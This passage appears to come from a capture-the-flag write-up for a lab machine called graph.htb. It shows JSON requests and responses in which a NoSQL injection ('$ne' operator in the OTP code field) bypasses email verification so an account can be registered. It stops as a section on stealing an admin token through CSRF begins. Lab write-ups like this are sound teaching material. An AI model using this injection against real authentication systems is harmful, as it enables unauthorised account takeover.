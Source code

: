The only problem was, there is no way we can get an OTP to send in the step 2. The trick here was to use NOSQL injection to bypass the code verification.

## Exploitation
### Bypass Login
First we send a POST request to `/api/code` with the email we want to login:
```json
{"email":"caue@graph.htb"}
```
Response:
```json
{"result":"4 digit code sent to your email"}
```

Then we need to send the OTP to `/api/verify` with NOSQL injection to bypass:
```json
{"email":"caue@graph.htb","code":{"$ne":"1234"}}
```
Response:
```json
{"result":"Email Verified"}
```

For last, we send our email and password to `/api/register`:
```json
{"email":"caue@graph.htb","password":"password","confirmPassword":"password","username":"caue"}
```
Response:
```json
{"result":"Account Created Please Login!"}
```

Now we can go to the login page and login with our credentials!

### CSRF - Steal admin token
As we login to the page we can see a message in the chat:
![](images/image04.png)
